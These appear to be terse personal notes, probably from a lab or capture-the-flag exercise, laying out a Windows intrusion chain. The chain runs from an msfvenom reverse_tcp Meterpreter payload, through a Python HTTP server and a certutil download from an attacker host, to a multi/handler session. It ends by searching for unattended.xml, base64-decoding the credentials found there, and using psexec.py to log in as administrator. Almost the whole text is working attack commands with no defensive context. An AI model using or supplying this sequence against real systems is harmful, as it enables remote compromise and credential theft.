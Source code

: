 get meterpter session 

msfvenom to create payload 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe


python -m simplehttp server (to upload our payload)
python3 -m http.server 80

in victim host : 
- open cmd 
- certutil -urlcache  -f http://attacker-ip/shell.exe shell.exe

go back to attacker to start multi/handler 
set same playload 

in meterpter 
search -f unattended.xml
download untend.xml
look for user credentional


nano password.txt
base64 -d password.txt 

psexec.py adminstrator@target_ip 


